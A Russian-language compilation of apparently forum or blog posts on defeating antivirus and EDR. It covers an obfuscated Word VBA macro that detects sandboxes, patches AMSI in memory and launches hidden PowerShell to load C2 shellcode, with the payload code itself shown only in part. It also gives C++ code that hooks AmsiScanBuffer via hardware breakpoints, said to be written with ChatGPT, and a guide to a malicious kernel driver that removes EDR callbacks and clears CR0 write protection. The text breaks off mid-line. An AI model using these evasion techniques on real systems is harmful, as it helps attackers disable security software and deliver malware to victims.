Усилия вознаграждены. Угрозу обнаружили всего 5 из 26 антивирусных движков, и автору скрипта удалось ускользнуть от самых распространенных, таких как Windows Defender, Sophos, Kaspersky и McAfee. С помощью примененных им методов скрипту удалось отключить AMSI и выполнить вредоносный VBA-скрипт на машине, защищенной Windows Defender.
И это ответ тем, кто считает что скриптами нельзя делать низкоуровневые вещи, можно всё при должном умении и знании...)
Казалось бы, макровирусы давно и безвозвратно ушли в прошлое. Уж что‑что, а вредоносные макросы в документах Office современные антивирусные программы должны обнаруживать легко и непринужденно. Именно так и обстоят дела, если макрос, конечно, не обфусцирован. Эффективными приемами обхода антивирусного детекта зловредных VBA-макросов поделился в своей публикации независимый исследователь Брендан Ортиз, а мы расскажем о его изысканиях тебе.
Готовясь к сертификации OSEP, Брендан Ортиз наверняка выпил ведро кофе и перелопатил гигабайты технической документации. Насчет кофе мы не уверены, а вот то, что результатом этой подготовки стало масштабное и подробное исследование способов закладки VBA-макросов в самые обычные документы Word, не подлежит никакому сомнению. Брендан убедился, что на сайте antiscan.me (альтернатива virustotal.com) оригинальный файл обнаруживался как минимум 7 антивирусными движками из 20. Тогда он всерьез взялся за обфускацию своих художеств и смог в итоге сбить показатель детектирования до 2 из 20. Поскольку антивирусные базы периодически обновляются, со временем этот параметр вырос с 2 до 5. Но все равно — результат получился впечатляющий.
Проверка эмуляции
Многие антивирусы, использующие для детектирования вредоносов эвристику, запускают VBA-скрипты в «песочнице» с целью убедиться в их безопасности. Потому настоящие вирусописатели в первую очередь проверяют, работает ли их сценарий в эмулированной среде, и, если так — останавливают выполнение вредоносного пейлоада, чтобы антивирус не забил тревогу.
Брендан Ортиз предложил три простых теста для определения эмулятора. Эти тесты располагаются в самом начале созданного им макроса и не позволяют ему выполнить никаких зловредных действий, если обнаружится, что скрипт запущен в изолированной среде.
Первый тест исследователь назвал «Document Name». Во многих случаях, когда антивирусный движок эмулирует выполнение макроса VBA, он меняет имя документа либо добавляет к этому имени некоторое число, чтобы отследить и предотвратить многократный запуск скрипта. Этот тест проверяет, совпадает ли с именем оригинального документа имя того документа, в котором выполняется полезная нагрузка.
Чтобы зашифровать статическую строку, в которой хранится имя документа, используется сценарий PowerShell, а затем во время выполнения скрипта для ее расшифровки вызывается собственная функция Joy. Если имя активного документа не совпадает с указанным именем, проверка считается непройденной и выполняется выход из подпрограммы.
На втором этапе проверяется путь. Если мы заранее знаем, из какой папки будет открыт документ с вредоносным сценарием (например, из папки «Загрузки» пользователя Windows), то мы можем сравнить ее с текущим путем. Несовпадение пути укажет на то, что скрипт, скорее всего, работает в антивирусном движке. В этом случае мы также выходим из подпрограммы.
Наконец, простой тест на время. Когда скрипт выполняется в эмуляторе антивируса, тот обычно пропускает фрагменты кода, в которых реализована пауза или «засыпание», иначе любящие «поспать» макровирусы попросту завесят движок. Поэтому Брендан предложил следующую нехитрую проверку: фиксируем актуальное время, «спим» две секунды, а затем просыпаемся и вновь фиксируем время. Если разница между двумя этими значениями составит менее 2 секунд, скорее всего, мы в антивирусном движке. В этом случае подпрограмма также завершается.
Если все три проверки завершились полным и безоговорочным успехом, макрос переходит к выполнению полезной нагрузки, которая выглядит примерно так, как показано на следующем рисунке.
Несколько слов об AMSI
В ходе своих экспериментов Брендан Ортиз выяснил, что поначалу его вредоносный макрос успешно детектировался эвристикой большинства антивирусных движков. Кроме того, несмотря на многочисленные попытки исследователя запустить макрос при включенной защите Windows Defender, система убивала скрипт. По какой же причине макрос помечался как вредоносный? Все дело в том, что интерфейс Anti-Malware Scan Interface (AMSI) заглядывает в сценарий VBA и контролирует его поведение.
AMSI — это разработанный Microsoft интерфейс, который приспособлен к работе с любыми антивирусами и позволяет им запрашивать информацию о процессах, происходящих во время исполнения программ. Это значит, что антивирусу передаются даже бесфайловые угрозы, например команды PowerShell, если антивирус вызывает AMSI. Еще это означает, что ты можешь как угодно обфусцировать полезную нагрузку, но как только она деобфусцируется во время выполнения, AMSI начнет отслеживать поведение кода.
Когда пользователь пытается выполнить команду в PowerShell, AMSI сначала загружает, а затем проверяет эту команду. Если обнаруживаются какие‑либо элементы, которые обычно используются для вредоносных действий, в частности, вызовы API Win32 или COM (то есть, срабатывают заложенные в AMSI «триггеры»), то AMSI приостанавливает подозрительный процесс.
На картинке ниже показано, как VBA интегрируется с AMSI. С учетом всего этого исследователь стал искать способы ускользнуть от пристального внимания AMSI при выполнении скриптов VBA и PowerShell.
Импорт Windows API в VBA
Начать Брендан решил с импорта функций. Чтобы пропатчить AMSI в памяти, необходим доступ к некоторым низкоуровневым библиотекам и функциям Windows. В VBA разрешено импортировать API Windows для использования в макросе. Такая возможность радикально расширяет функционал VBA.
Злоумышленник, вызывая определенные API Windows из VBA, C#, PowerShell и т. д., должен хорошенько в них разобраться, чтобы все сделать правильно. Дело в том, что нативные функции для этих целей в соответствующих языках отсутствуют. Но вооружившись некоторыми «подготовительными знаниями», заполнить эти пробелы довольно легко. Когда ты знаешь, какие API Windows хочешь импортировать, для начала обязательно погугли соответствующую документацию Microsoft. Там ты найдешь подробную информацию об интересующей тебя функции, в частности, каковы ее возвращаемые значения, какие параметры она принимает, в какой DLL находится интересующий тебя API и т. д. Так ты получишь по‑настоящему хорошее представление о событиях, происходящих «под капотом» скрипта.
Брендан использовал в своем макросе объявление PInvoke (Platform-Invoke, «Платформенный вызов»). PInvoke – это коллекция определений для вызова нативных функций API Windows из языков программирования, в которых может отсутствовать такой низкоуровневый функционал. Особенности работы этого инструмента подробно описаны вот на этом сайте. Там можно найти декларации для импорта API в различные сценарии на все случаи жизни.
Обход AMSI
Импорт необходимых API Windows в VBA — это только первый шаг. Чтобы придуманный Бренданом Ортизом скрипт работал, нужно обойти AMSI. Для этого исследователь решил пропатчить AMSI прямо в памяти. А конкретнее, пропатчить первые несколько байтов в функциях AmsiScanBuffer и AmsiScanString из библиотеки Amsi.dll, загружаемой из запущенного процесса. Эти функции, если верить документации Microsoft, отвечают за сканирование содержимого буфера в поисках характерных для малвари строк.
Сначала объявляется список указателей переменных для хранения адресов функций. Затем в переменной lib сохраняется адрес из библиотеки amsi.dll, это делается при помощи направляемого к API Windows вызова LoadLib. Все строки в этом патче памяти AMSI должны быть обфусцированы. На первом этапе автор скрипта использовал для этого функцию VBA Chr(), чтобы скрыть некоторые характерные строки вроде amsi.dLl и AmsiUacInitialize.
Затем нужно найти, где лежит функция AmsiScanString. Для этого Брендан использовал функцию Windows API GetProcAddress, переименованную в GetPrAddr. Поскольку AMSI еще не пропатчен, а вредоносы часто пытаются отключить его, нацеливаясь на функции AmsiScanString и AmsiScanBuffer, автор скрипта воспользовался относительной адресацией начиная с функции AmsiUacInitialize.
Для начала Брендан вычел 96 из адреса функции AmsiUacInitialize и сохранил результат в переменной func_addr. Затем вызвал GetPrAddr со строками‑аргументами, первая из которых – это адрес amsi.dll, а вторая – строка AmsiUacInitialize, к которой применена обфускация. Зачем вычитать 96? Всё очень просто: Брендан прошелся по процессу Microsoft Word отладчиком WinDbg и выяснил, что адрес функции AmsiScanString отстоит на 96 байтов от функции AmsiUacInitialize.
Если просмотреть в WinDbg содержимое загруженной в память библиотеки AMSI.dll начиная с функции AmsiScanBuffer, расположенной по адресу 0x100 в шестнадцатеричной системе (256 байтов в десятичной), то можно увидеть, как выглядит верхняя часть вывода.
Стрелка указывает на первые опкоды в функции AmsiScanBuffer, а слева показан ассоциированный с этой инструкцией адрес в памяти: 0x00007ffa054f35e0. Следовательно, функция AmsiScanBuffer начинается именно в этой точке. Изучив вывод далее, можно найти следующую функцию — AmsiScanString, и выяснить ее адрес: 0x00007ffa054f36e0.
Далее Брендан отыскал в выводе отладчика значение переменной func_addr, которую загрузил в свой макрос VBA при помощи функции GetPrAddr. В этой переменной находится адрес функции AmsiUacInitialize: 0x00007ffa054f3740.
Все, что осталось сделать автору скрипта, — это просто вычесть из адреса функции AmsiUacInitialize адреса функций AmsiScanString и AmsiScanBuffer. Так будут получены относительные адреса последних.
0x054f3740 (AmsiUacInitialize Start Address) - 0x054f36e0 (AmsiScanString Start Address) = 0x60 = 96 bytes
0x054f3740 (AmsiUacInitialize Start Address) - 0x54f35e0 (AmsiScanBuffer Start Address) = 0x160 = 352 bytes
Следующая часть созданного Бренданом Ортизом макроса меняет защитные механизмы памяти и порядок доступа к ней целевых функций. Это делается при помощи API-функции VirtualProtect, которую автор переименовал в VirtPro.
Функция VirtualProtect меняет характеристики защиты в области виртуальной памяти, которая относится к адресному пространству вызывающего процесса. С ее помощью можно изменить показатели защиты для конкретного участка памяти (с атрибутами «только для чтения» или «для исполнения»), в результате чего появляется возможность редактировать расположенные там инструкции.
VirtualProtect принимает следующие параметры: адрес того места, которое нужно отредактировать (это адрес интересующей нас функции), размер области памяти, которую требуется редактировать (32 байта от начала адреса), уровни защиты памяти, которые требуется обеспечить (передается в виде значения, которое будет обрабатываться при помощи побитовой операции AND). Наконец, в сценарии содержится переменная flOldProtection. Функция сохраняет в эту переменную старое значение параметров защиты памяти – для последующего использования.
Получив доступ к чтению и записи тех областей памяти, что предназначены только для записи, Брендан перешел непосредственно к пропатчиванию AMSI. Для этого он использовал WinAPI-функцию RtlFillMemory. Такие функции, как RtlMoveMemory, часто используются вредоносами, поэтому легко обнаруживаются эвристикой антивирусов. А вот RtlFillMemory – не самый частотный вариант, из‑за чего ее могут и не сэмулировать движки, работа которых основана на эвристике. Да и при статическом анализе антивирусы далеко не всегда обращают на нее внимание. Брендан переименовал эту функцию в patcher.
В скрипте выполняется вызов функции RtlFillMemory по псевдониму patcher, ей передаются адреса функций AmsiScanString и AmsiScanBuffer. Затем нужно указать, сколько байтов требуется заполнить, и, наконец, передать шестнадцатеричное значение кода операции, которое требуется туда добавить: 0x90 — это код NOP, он ничего не делает. Затем выполняется то же действие, но с увеличением адреса на 1, при этом функции передается код операции return, который равен 0xc3.
В результате в начале функции AmsiScanString будет поставлен неоперационный код 0x90, а после него – код возврата 0xC3, и эта функция просто завершится сразу после того, как будет вызвана, что позволит обойти AMSI в VBA. Вот как выглядит выполнение функции AmsiScanString после применения патча в отладчике WinDbg.
Все, что остается – повторить весь процесс для функции AmsiScanBuffer, смещение для которой уже известно. Тут стоит отметить, что есть и более изощренные способы сделать это, например, динамически искать начальные байты каждой функции, как только адрес Amsi.dll будет загружен в память. Кроме того, есть некоторые отличия в процессе патча библиотеки в 32-разрядной и 64-разрядной версиях Word.
На некоторых сайтах можно встретить описания способов обхода AMSI на VBA с использованием совершенно иных, альтернативных методов, не требующих взаимодействия с API Windows. Правда, некоторые из них требуют записывать на диск файлы и с этим можно влипнуть. Примеры на эту тему можно найти в следующем Git-репозитории.
Обфускация строк
Поскольку созданный Бренданом Ортизом VBA-скрипт использует WMI-объект для порождения процесса PowerShell, он неизбежно привлечет повышенное внимание любого антивирусного движка. Наиболее очевидным решением этой проблемы является шифрование статических строк внутри макроса.
Например, при создании объекта WMI используются такие строки, как winmgmts:, Win32_ProcessStartup, Win32_Process и им подобные. При статическом сканировании макроса эти строки будут идеальными мишенями для антивируса, он просто неизбежно пометит их как вредоносные. Брендан использовал следующий метод обфускации.
Он объявил переменную, в которой будут сохраняться статические строки, присутствующие в макросе VBA. Затем он объявил выходную переменную, в которой будет содержаться зашифрованная строка. После этого он преобразовал полезную нагрузку из строковой переменной в символьный массив. Затем десятичное значение каждого символа суммируется со значением 26. Далее он забил символ дополнительными нулями, чтобы позже, в процессе деобфускации VBA, получились предсказуемые 3-символьные значения. Если длина вывода составляет 1 символ, то к нему добавляется два нуля, если длина – два символа, добавляется один ноль, а если три символа, ничего не добавляется.
Таким образом формируется зашифрованная выходная строка, которая отправляется в буфер обмена через конвейер. После запуска скрипта в буфер обмена помещается строка примерно следующего содержания.
Деобфусцирующий макрос в VBA выглядит примерно так.
В скрипте создаются подпрограммы со случайными именами, которые не выдадут антивирусному сканеру, что процедура может быть вредоносной, а также запутают любого аналитика, которому попадет в руки такой макрос. В VBA подпрограмма вызывается при помощи инструкции, которая имеет примерно следующий вид.
Сначала зашифрованная полезная нагрузка поступает в подпрограмму Joy и запускает цикл Do While. Затем она отправляется в подпрограмму Man, извлекающую первые 3 числа (вот зачем понадобилось заполнение нулями), после чего передает эти символы функции bread. Она вычтет 26 из 3 символов, чтобы получить конкретное дешифрованное число. Это число является ASCII-эквивалентом символа и сохраняется в переменной green.
Далее вся зашифрованная полезная нагрузка отправляется функции rand, которая удаляет из нее первые три символа и сохраняет их обратно в переменную paper. Затем процесс повторяется до тех пор, пока вся полезная нагрузка не редуцируется до нуля.
Наконец, дешифрованная полезная нагрузка возвращается вызывающей процедуре при помощи инструкции Joy = green.
Выполнение PowerShell при помощи WMI
Далее необходимо запустить экземпляр процесса PowerShell при помощи WMI. Для этого создается объект WMI посредством вызова функции VBA GetObject с зашифрованной строкой winmgmts:, результат сохраняется в переменной ObjWMIService.
После этого вызывается функция Get из объекта WMI Service с зашифрованной версией строки Win32_ProcessStartup и сохраняется в переменную objStartup. Это позволяет задать параметры запуска для создаваемого скриптом процесса PowerShell. Следующие действия направлены на то, чтобы спрятать окно PowerShell (для этого значение переменной objConfig.showWindow устанавливается в 0) — пользователь даже не узнает, что в фоновом режиме выполняется какой‑то скрипт.
Созданному процессу передаются заранее сформированные параметры и настройки в виде нескольких сцепленных строк. Весь ход создания объекта WMIObject выглядит примерно так.
Полезная нагрузка PowerShell
Прежде чем запустить вредоносную команду PowerShell, необходимо отключить AMSI. Поскольку инстанс PowerShell порождается в отдельном процессе, здесь возникает загвоздка с еще одним случаем интеграции AMSI, который придется обойти прежде, чем скрипт начнет какую‑либо вредоносную активность.
Работа макроса начинается с отключения AMSI в VBA, чтобы во время исполнения система не пометила содержимое макроса как вредоносное.
Для этого объявляются три разные строки — str1,str2 и str3, а затем им передается в качестве значения полезная нагрузка, которую нужно прогнать через объект WMI (процесс создания этого объекта был описан выше). Это сделано ради удобочитаемости и пригодности к отладке: разделив полезную нагрузку на фрагменты, можно выявить, где именно она прекращает выполняться.
Первая строка (str1) получает в качестве нагрузки зашифрованную версию кода:
Powershell.exe -ep bypass -nop -c
Если не удается создать процесс PowerShell при выполнении макроса, то уже известно, что проблема заключается в первом зашифрованном фрагменте.
Вторая строка (str2) получает в качестве нагрузки следующий зашифрованный код:
Эта строка – зашифрованный обход AMSI. Шифрование выполнено по основанию 64, так как при переводе с VBA на PowerShell могут возникнуть проблемы при передаче специальных символов. В декодированном виде обход укладывается в одну строку, а в несвернутом выглядит примерно так.
Если будет получено уведомление Microsoft Defender о блокировке скрипта на данном этапе, станет очевидно, что обход не удался. Если не удастся установить соединение с веб‑сервером для скачивания полезной нагрузки, но сам скрипт PowerShell запустится успешно, это также будет означать, что проблема возникла именно здесь.
Третья строка (str3) получает в качестве нагрузки такой код:
Так извлекается первая часть полезной нагрузки, загрузчик шелл‑кода, который будет загружать байт‑код со стадии 2 и выполнять его непосредственно в памяти.
Загрузчик шелл-кода
После запуска из PowerShell скрипт скачивает сгенерированный шелл‑код, а затем, воспользовавшись рефлексией, загружает функции Windows API, эквивалентные VirtualAlloc, CreateThread и WaitForSingleObject.
Сгенерированный шелл‑код использует загруженные API Windows, чтобы выполнить код в текущем процессе PowerShell. Это и называется рефлексией, в ходе нее функции создаются и загружаются в память. Есть причина, по которой нужно действовать именно так, а не использовать, например, функцию add-type из арсенала PowerShell.
Дело в том, что Add-Type создает временный файл и сохраняет его на диск. Такой файл – это артефакт, по которому вирусный аналитик может догадаться, что в системе происходит что‑то нехорошее. Кроме того, такой файл может быть замечен и просканирован антивирусными движками, когда он уже сохранен на диск.
В итоге, созданный Бренданом Ортизом скрипт принял следующий вид:
При исполнении шелл‑код выполняет обратный вызов к серверу C2, а затем возвращает управление шелл‑коду.
Стомпинг VBA
Остается последний этап — стомпинг VBA. Это акт удаления частично сжатой версии исходного кода VBA, сохраненного в документе – так, что остается только предварительно скомпилированный код. Когда документ открывают на целевой машине в той же версии Word, для которой создавался скрипт, код VBA не компилируется заново — вместо этого выполняется сохраненный макрос VBA.
Таким образом, если нам заблаговременно известно, с какой версией VBA будет выполняться наш макрос, мы можем удалить из документа исходный код и оставить только скомпилированный. Благодаря этому радикально сужается возможность анализа кода и снижается вероятность его обнаружения антивирусом.
Для такой работы особенно хорош инструмент EvilClippy, который даже позволяет заменить нескомпилированный макрос VBA безвредной версией VBA-кода. Таким образом, ты можешь заменить вредоносный макрос на код, который пишет "Hello World!". Когда документ будет открыт, выполнится и вредоносный макрос, если версия Office – именно та, для которой он компилировался. Все вышеперечисленное EvilClippy может выполнить при помощи единственной строки кода, выглядящей примерно так:
В результате выполнения команды в папке с исходным файлом создается новый документ, к имени которого добавлена строка _EvilClippy.
Обрати внимание, насколько два этих файла отличаются по размеру. Теперь остается только загрузить вредоносный документ на antiscan.me и посмотреть, сколько антивирусных движков распознают его как вредоносный. В данном случае обязательно пользоваться antiscan.me, а не VirusTotal, поскольку первый из этих двух сайтов не передает вредоносную нагрузку антивирусным компаниям для ее добавления в базы сигнатур.
Выводы
А вот и результат!
Усилия вознаграждены. Угрозу обнаружили всего 5 из 26 антивирусных движков, и автору скрипта удалось ускользнуть от самых распространенных, таких как Windows Defender, Sophos, Kaspersky и McAfee. С помощью примененных им методов скрипту удалось отключить AMSI и выполнить вредоносный VBA-скрипт на машине, защищенной Windows Defender.
Обход AMSI при помощи хардварных точек останова
AMSI (Antimalware Scan Interface) — это интерфейс, предоставляемый Microsoft, который позволяет приложениям и службам отправлять данные на сканирование антивирусными решениями, установленными на системе. С AMSI разработчики могут лучше интегрироваться с антивирусными решениями и обеспечивать более высокий уровень безопасности для своих пользователей.
Обход AMSI с использованием хардверных брейкпоинтов:
Хардверные точки останова — это механизм, который позволяет отладчикам "останавливать" выполнение программы при обращении к определенной области памяти. Это может быть полезно при исследовании, как программа или система взаимодействует с конкретными данными.
В этой статье давайте попробуем перехватить функцию AmsiScanBuffer и изменить в обработчике исключения входные данные в эту функцию, тем самым в антивирусные системы будут попадать не вредоносный код для сканирования, а мусор.)
AmsiScanBuffer — это функция из Antimalware Scan Interface (AMSI) в Windows. AMSI предоставляет приложениям и сервисам интерфейс для взаимодействия с антивирусными решениями, установленными на системе. Это позволяет приложениям отправлять буферы данных на сканирование, чтобы определить, содержат ли они вредоносный код или другие угрозы.
Функция AmsiScanBuffer предназначена для сканирования произвольного буфера памяти. Это может быть полезно, например, для проверки содержимого файлов, сетевых пакетов или динамически генерируемого кода на предмет вредоносных действий.
Прототип функции выглядит примерно так:
C:
HRESULT AmsiScanBuffer(
HAMSICONTEXT amsiContext,
const void *buffer,
ULONG length,
LPCWSTR contentName,
HAMSISESSION amsiSession,
AMSI_RESULT *result
);Описание параметров:
- amsiContext: контекст AMSI, который был получен при вызове AmsiInitialize.
- buffer: указатель на буфер, который следует просканировать.
- length: размер буфера в байтах.
- contentName: опциональное имя или описание контента, который сканируется. Это может помочь антивирусному решению лучше понять, что именно сканируется.
- amsiSession: опциональная сессия сканирования; может быть NULL.
- result: указатель на переменную, в которую будет записан результат сканирования.
Вот базовый пример на C++, который устанавливает хардверный брейкпоинт на адрес функции AmsiScanBuffer:
C++:
#include <Windows.h>
#include <iostream>
void SetHardwareBreakpoint(void* address)
{
CONTEXT context;
context.ContextFlags = CONTEXT_DEBUG_REGISTERS;
HANDLE hThread = GetCurrentThread();
if (!GetThreadContext(hThread, &context))
{
std::cerr << "Failed to get thread context." << std::endl;
return;
}
// Set the address into DR0 (debug register 0)
context.Dr0 = (DWORD_PTR)address;
context.Dr7 |= 0x00000001; // Activate DR0 for execution
if (!SetThreadContext(hThread, &context))
{
std::cerr << "Failed to set thread context." << std::endl;
}
}
int main()
{
HMODULE hAmsi = LoadLibraryA("amsi.dll");
if (!hAmsi)
{
std::cerr << "Failed to load amsi.dll" << std::endl;
return 1;
}
void* pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");
if (!pAmsiScanBuffer)
{
std::cerr << "Failed to find AmsiScanBuffer function." << std::endl;
return 1;
}
SetHardwareBreakpoint(pAmsiScanBuffer);
// TODO: Add your code here.
return 0;
}Этот код устанавливает хардверный брейкпоинт на выполнение функции AmsiScanBuffer. Когда функция будет вызвана, ваше приложение попадет в обработчик исключения (EXCEPTION_SINGLE_STEP). Вы можете обработать это исключение, чтобы выполнить нужные действия при достижении брейкпоинта.
Чтобы добавить обработчик для функции AmsiScanBuffer, вы можете использовать векторные исключения Windows. Сначала добавьте обработчик исключений, который будет вызываться при срабатывании брейкпоинта, а затем в этом обработчике перехватите вызов AmsiScanBuffer.
Ниже приведен пример:
C++:
#include <Windows.h>
#include <iostream>
LONG CALLBACK VectoredExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo)
{
if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP)
{
// TODO: Обработка вызова AmsiScanBuffer
// ...
// Верните EXCEPTION_CONTINUE_EXECUTION, чтобы продолжить выполнение
return EXCEPTION_CONTINUE_EXECUTION;
}
// Если это не та ошибка, которую мы искали, верните EXCEPTION_CONTINUE_SEARCH.
return EXCEPTION_CONTINUE_SEARCH;
}
void SetHardwareBreakpoint(void* address)
{
CONTEXT context;
context.ContextFlags = CONTEXT_DEBUG_REGISTERS;
HANDLE hThread = GetCurrentThread();
if (!GetThreadContext(hThread, &context))
{
std::cerr << "Failed to get thread context." << std::endl;
return;
}
// Set the address into DR0 (debug register 0)
context.Dr0 = (DWORD_PTR)address;
context.Dr7 |= 0x00000001; // Activate DR0 for execution
if (!SetThreadContext(hThread, &context))
{
std::cerr << "Failed to set thread context." << std::endl;
}
}
int main()
{
HMODULE hAmsi = LoadLibraryA("amsi.dll");
if (!hAmsi)
{
std::cerr << "Failed to load amsi.dll" << std::endl;
return 1;
}
void* pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");
if (!pAmsiScanBuffer)
{
std::cerr << "Failed to find AmsiScanBuffer function." << std::endl;
return 1;
}
SetHardwareBreakpoint(pAmsiScanBuffer);
// Установите векторный обработчик исключений
AddVectoredExceptionHandler(1, VectoredExceptionHandler);
// TODO: Add your code here.
return 0;
}В VectoredExceptionHandler вы можете добавить логику, которая будет выполнена при вызове AmsiScanBuffer. Например, вы можете изменить аргументы, передаваемые в функцию, или модифицировать результаты выполнения.
Чтобы изменить аргументы функции AmsiScanBuffer в VectoredExceptionHandler, нужно взаимодействовать с контекстом потока, который был передан в обработчик исключений. Аргументы функции передаются через регистры или через стек в зависимости от архитектуры и соглашения вызова. В x64 Windows, первые четыре аргумента функции передаются через регистры RCX, RDX, R8 и R9, а остальные — через стек.
В контексте функции AmsiScanBuffer:
- RCX будет содержать amsiContext
- RDX будет содержать указатель на buffer
- R8 будет содержать length
- R9 будет содержать contentName
Вот пример того, как вы можете изменить аргументы:
C++:
LONG CALLBACK VectoredExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo)
{
if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP)
{
CONTEXT* context = ExceptionInfo->ContextRecord;
// Изменяем аргументы функции
context->Rcx = (DWORD_PTR)modifiedAmsiContext;
context->Rdx = (DWORD_PTR)modifiedBuffer;
context->R8 = modifiedLength;
context->R9 = (DWORD_PTR)modifiedContentName;
// Если нужно изменить аргументы в стеке (например, amsiSession или result):
DWORD_PTR* stack = (DWORD_PTR*)context->Rsp;
stack[0] = (DWORD_PTR)modifiedAmsiSession; // Первый аргумент в стеке
stack[1] = (DWORD_PTR)&modifiedResult; // Второй аргумент в стеке
// ...
return EXCEPTION_CONTINUE_EXECUTION;
}
return EXCEPTION_CONTINUE_SEARCH;
}Это статья написана ChatGPT с моими подсказками и наводящими вопросами...)
Круто правда ?
Уклоняемся от поведенческого детекта антивируса и EDR
Всем привет!
Давайте поисследуем как можно обойти детект связанный с поведением на конкретном устройстве:
Вообще тут существуют два варианта обхода:
1)Использовать антихуки в своём приложении, этот метод относительно простой и описан уже здесь:Открываем врата ада | Цикл статей "Изучение вредоносных программ"
Или вот ещё проект:Фреймворк для тестирования антивирусов
Но данный метод не позволяет 100% обойти защиту, т.к. многие AV используют коллбэки и мини-фильтры ядра.
Тут нужен второй способ, а вообще можно в комплексе использовать.)
2)Итак второй способ:
Этот способ заключается в удалении калбэков защитного решения в ядре.)
Долгое время Microsoft пыталась перенести и ограничить любой сторонний код ring0.
Это делается по понятным причинам, в основном чтобы не позволять сторонним разработчикам вмешиваться в код ядра и избегать предоставления им доступа к обходам защиты ядра KPP (Kernel Patch Protection).
Из-за этого производители EDR вынуждены использовать другие способы взаимодействия с ядром, а именно коллбэки и мини-фильтры.
Цель драйверов мини-фильтров заключается в перехвате запросов ввода/вывода файловой системы и расширении или замене нативных функциональностей.
Между тем, коллбэки необходимы для перехвата создания процессов/потоков и загрузки образов.
Итак моему мнению, лучший способ изучить тему - это начать с теории и перейти к чему-то осязаемому
Давайте попробуем на практике, что можно достичь с помощью зловредного драйвера.
Загрузите копию проекта Visual Studio здесь, скомпилируйте его для x64, режим отладки.
Режим отладки включит операторы KdPrint и позволит нам наблюдать за поведением драйвера через (DebugView)[DebugView - Sysinternals] от SysInternals или через удаленную сессию ядра WinDbg.
Успешная компиляция приведет к созданию двух бинарных файлов: интерфейса командной строки пользовательского режима evilcli.exe и самого драйвера evil.sys. Поскольку наш драйвер не подписан, перед установкой, необходимо включить тестовый режим из командной строки с повышенными правами с помощью Bcdedit.exe -set TESTSIGNING ON и перезагрузить машину.
Позже мы увидим, как доставить тот же самый драйвер в нормальном сценарии, без включения тестового режима.
CLI оборудован следующими опциями:
Код:
C:\Users\matteo\windows-ps-callbacks-experiments-master\evil-driver\x64\Debug>evilcli.exe
Использование: evilcli.exe <опции>
Опции:
-h Показать это сообщение.
-l Список адресов коллбэков уведомлений о процессах, потоках и загрузке образов.
<Коллбэки процессов>
-zp Обнулить массив коллбэков уведомлений о процессах (Режим ковбоя).
-dp <индекс> Удалить конкретный коллбэк уведомления о процессе (Режим красной команды).
-pp <индекс> Исправить конкретный коллбэк уведомления о процессе (Режим угрозы актера).
-rp <индекс> Вернуться к оригинальному коллбэку уведомления о процессе (Режим задумчивого ниндзя).
<Коллбэки потоков>
-zt Обнулить массив коллбэков уведомлений о потоках (Режим ковбоя).
-dt <индекс> Удалить конкретный коллбэк уведомления о потоке (Режим красной команды).
-pt <индекс> Исправить конкретный коллбэк уведомления о потоке (Режим угрозы актера).
-rt <индекс> Вернуться к оригинальному коллбэку уведомления о потоке (Режим задумчивого ниндзя).
<Коллбэки загрузки образов>
-zl Обнулить массив коллбэков уведомлений о загрузке образов (Режим ковбоя).
-dl <индекс> Удалить конкретный коллбэк уведомления о загрузке образа (Режим красной команды).
-pl <индекс> Исправить конкретный коллбэк уведомления о загрузке образа (Режим угрозы актера).
-rl <индекс> Вернуться к оригинальному коллбэку уведомления о загрузке образа (Режим задумчивого ниндзя).Как видите опций много, поэтому я просто выделю возможность изменения/восстановления исправленного коллбэка с помощью команд rp или rt в зависимости от того, относится ли он к процессу или потоку.
Мы должны помнить, что эта битва ведется между двумя сущностями, работающими на одном и том же уровне ring0.
Так что, как предупреждение, зловредный драйвер будет успешен только на системах без включенного HyperV.
Если на системе включен HyperV, он обнаружит любые изменения в ядре или драйвере во время выполнения и немедленно разрушит наши мечты синим экраном смерти System Service Exception BSOD.
Тем временем, чтобы продолжать играть с нашим драйвером, нам нужно отключить гипервизор с помощью bcdedit /set hypervisorlaunchtype off и перезагрузить систему.
Тем не менее, нам все еще нужно найти метод, чтобы наше изменение ядра могло сосуществовать с KPP, также известным как PatchGuard. Короче говоря, KPP пытается предотвратить любые модификации критически важных структур ядра, вызывая проверку на ошибки при любой попытке это сделать.
Тем не менее, эта проверка запускается несинхронизированными таймерами, как уже было задокументировано во многих местах, в частности, на uninformed и tetrane.
Мы увидим, как обойти PatchGuard чуть позже.)
Подавление WriteProtect
Препятствие, с которым нам предстоит столкнуться, заключается в том, что наши целевые коллбэки находятся в страницах памяти ядра только для чтения. И эти страницы явно не могут быть модифицированы нашим патчем.
Код:
lkd> !pte 0xfffff80267fdd670
VA fffff80267fdd670
PXE at FFFF85C2E170BF80 PPE at FFFF85C2E17F0048 PDE at FFFF85C2FE0099F8 PTE at FFFF85FC0133FEE8
contains 0000000005108063 contains 0000000005109063 contains 0000000005219063 contains 09000000035C5021
pfn 5108 ---DA--KWEV pfn 5109 ---DA--KWEV pfn 5219 ---DA--KWEV pfn 35c5 ----A--KREVPTE действительно доступна только для чтения (флаг R в ----A--KREV), и если мы настолько упрямы, чтобы вмешиваться в это, мы столкнемся с синим экраном смерти (BSOD).
Ну, как же нам сделать нашу страницу доступной для записи? Наш святой Грааль - это регистр CR0, который является одним из других управляющих регистров, отвечающих за определение режима работы процессора и характеристик текущего потока. Бит номер 16 этого регистра - это флаг WP (Write Protect), который нам нужно сбросить. Затем мы "отравляем" 16-й бит CR0, используя следующий MDL (Memory Descriptor List) как структуру для представления разметки регистра.
C:
typedef union {
struct {
UINT64 protection_enable : 1;
UINT64 monitor_coprocessor : 1;
UINT64 emulate_fpu : 1;
UINT64 task_switched : 1;
UINT64 extension_type : 1;
UINT64 numeric_error : 1;
UINT64 reserved_1 : 10;
UINT64 write_protect : 1;
UINT64 reserved_2 : 1;
UINT64 alignment_mask : 1;
UINT64 reserved_3 : 10;
UINT64 not_write_through : 1;
UINT64 cache_disable : 1;
UINT64 paging_enable : 1;
};
UINT64 flags;
} cr0;И удаляем флаг защиты от записи из CR0.
C:
void CR0_WP_OFF_x64()
{
cr0 mycr0;
mycr0.flags = __readcr0();
mycr0.write_protect = 0;
__writecr0(mycr0.flags);
}Не забывая применить изменение на каждом логическом процессоре:
C:
int LogicalProcessorsCount = KeQueryActiveProcessorCount
